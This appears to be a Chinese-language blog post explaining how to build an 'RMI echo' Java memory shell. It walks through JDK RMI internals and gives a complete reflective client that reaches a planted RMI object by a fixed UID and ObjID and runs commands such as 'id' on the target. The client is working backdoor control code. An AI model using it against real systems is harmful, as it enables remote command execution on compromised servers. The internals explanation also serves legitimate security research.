

# RMI Echo

RMI即java的远程方法调用。RMI有三个基本模块：server、registry和client。其中`server`是RMI的服务对象，会为服务对象暴露一个端口作为入口；`client`是RMI的客户端，即服务的调用；`registry`是注册端，负责管理所有的server，并暴露一个注册端口。通过注册端口，`server`可以将自身绑定在注册端，`client`可以查询到已绑定的`server`列表，并获取`server`的端口以供调用。

实际上，对于RMI echo内存马，我们的需求只需开放一个rmi server即可，不需要rmi registry。但java内置的SDK只能通过registry间接获取server。正常的RMI client代码如下

```java
AInterface lookup = (AInterface) Naming.lookup("rmi://x.x.x.x:PORT/aevil"); //AInterface是对应Remote Object实现的接口
Object r = lookup.echo("id");
```

`Naming.lookup()`实际上就是请求registry，得到名为`aevil`的Remote Object的端口。`lookup.echo()`则是通过对象代理的方式进行远程调用。


一个client与server交互的数据如下：



首先会发送握手包，握手包的发送可以在**`sun.rmi.transport.tcp.TCPChannel#newConnection`**找到

```java
public Connection newConnection(){
	return this.createConnection();
}
private Connection createConnection() throws RemoteException {
    .....
}
```

Server端的TCP入口为**`sun.rmi.transport.tcp.TCPTransport.ConnectionHandler#run0`**，这里会校验RMI的数据包头

```java
if (magic != TransportConstants.Magic ||
    version != TransportConstants.Version) {
    // protocol mismatch detected...
    // just close socket: this would recurse if we marshal an
    // exception to the client and the protocol at other end
    // doesn't match.
    closeSocket(socket);
    return;
}
```

最后实际进行远程调用的是**`sun.rmi.server.UnicastRef#invoke(java.rmi.Remote, java.lang.reflect.Method, java.lang.Object[], long)`**

```java
public Object invoke(Remote obj,
                     Method method,
                     Object[] params,
                     long opnum)
{
    //创建一个TCP连接，并发送握手包，
    Connection conn = ref.getChannel().newConnection();
    //组装Rmi调用数据，调用哪个方法，传入什么参数
    call = new StreamRemoteCall(conn, ref.getObjID(), -1, opnum);
    ObjectOutput out = call.getOutputStream();
    Class<?>[] types = method.getParameterTypes();
    for (int i = 0; i < types.length; i++) {
        marshalValue(types[i], params[i], out);
    }
    //发送Rmi调用
    call.executeCall();
    //获取返回数据
    ObjectInput in = call.getInputStream();
    //反序列化获取返回值
    Object returnValue = unmarshalValue(rtype, in);
}
```

所以我们若想要舍去registry，需要仿写这个`invoke()`方法

```java
String ip = args[0];
int port = Integer.valueOf(args[1]);
String command = args[2];

Object[] params = new Object[]{
    null,
    command,
    null,
    null,
    null
};

//设置固定的UID和ObjId
UID uid = new UID((short)12345);
Constructor<ObjID> objIDConstructor = ObjID.class.getDeclaredConstructor(new Class[]{
    long.class,
    UID.class
        });
objIDConstructor.setAccessible(true);
ObjID objID = objIDConstructor.newInstance(new Object[]{
    123456789L,
    uid
});

//调用TCPChannel#newConnection
//构造需要的对象
Socket socket = new Socket(ip, port);
LinkedList<TCPEndpoint> tcpEndpoints = new LinkedList<>();
TCPEndpoint tcpEndpoint = new TCPEndpoint(ip, port);
tcpEndpoints.add(tcpEndpoint);

Constructor<TCPTransport> tcpTransportConstructor = TCPTransport.class.getDeclaredConstructor(new Class[]{
    LinkedList.class
        });
tcpTransportConstructor.setAccessible(true);
TCPTransport tcpTransport = tcpTransportConstructor.newInstance(new Object[]{
    tcpEndpoints
});

Constructor<TCPChannel> tcpChannelConstructor = TCPChannel.class.getDeclaredConstructor(new Class[]{
    TCPTransport.class,
    TCPEndpoint.class
        });
tcpChannelConstructor.setAccessible(true);
TCPChannel tcpChannel = tcpChannelConstructor.newInstance(new Object[]{
    tcpTransport,
    tcpEndpoint
});

Connection tcpConnection = tcpChannel.newConnection();

//由于Remote Object需要实现一个接口，这里选取了RMIConnection#invoke作为恶意接口
Method method = RMIConnection.class.getMethod("invoke", new Class[]{
    ObjectName.class,
    String.class,
    MarshalledObject.class,
    String[].class,
    Subject.class
        });
Method getMethodHashMethod = RemoteObjectInvocationHandler.class.getDeclaredMethod("getMethodHash", new Class[]{
    Method.class
        });
getMethodHashMethod.setAccessible(true);
Long opnum = (Long) getMethodHashMethod.invoke(null, new Object[]{
    method
});

//组装数据
StreamRemoteCall streamRemoteCall = new StreamRemoteCall(tcpConnection, objID, -1, opnum);
Method marshalValueMethod = UnicastRef.class.getDeclaredMethod("marshalValue", new Class[]{
    Class.class,
    Object.class,
    ObjectOutput.class
        });
marshalValueMethod.setAccessible(true);

Class<?>[] types = method.getParameterTypes();
for (int i = 0; i < types.length; i++) {
    marshalValueMethod.invoke(null, new Object[]{
        types[i], params[i], streamRemoteCall.getOutputStream()
    });
}
//远程调用
streamRemoteCall.executeCall();

//获取返回值
Class<?> returnType = method.getReturnType();
ObjectInput inputStream = streamRemoteCall.getInputStream();
Method unmarshalValueMethod = UnicastRef.class.getDeclaredMethod("unmarshalValue", new Class[]{
    Class.class,
    ObjectInput.class
        });
unmarshalValueMethod.setAccessible(true);
Object invoke = unmarshalValueMethod.invoke(null, new Object[]{
    returnType,
    inputStream
});
System.out.println("[+] Result:\n");
System.out.println(invoke);
```


上面的代码中，值得注意的是**"设置固定的UID和ObjId"**这一段，为什么要设置固定的呢？

在Rmi server处，接受了客户端发来的调用请求后，会根据客户端发来的UID和ObjID与导出对象的UID和ObjID进行校验，只有一致才能正常进行调用

**`sun.rmi.transport.ObjectTable#getTarget(sun.rmi.transport.ObjectEndpoint)`**

```java
static Target getTarget(ObjectEndpoint oe) {
    synchronized (tableLock) {
        return objTable.get(oe);
    }
}
```

而默认`exportObject()`出来的`UID`和`ObjID`是随机不可预测的，只好在Payload中预先定义了

# Reference

[Java 中 RMI、JNDI、LDAP、JRMP、JMX、JMS那些事儿（上）](https://paper.seebug.org/1091/)

[搞懂RMI、JRMP、JNDI-终结篇](https://threedr3am.github.io/2020/03/03/%E6%90%9E%E6%87%82RMI%E3%80%81JRMP%E3%80%81JNDI-%E7%BB%88%E7%BB%93%E7%AF%87/)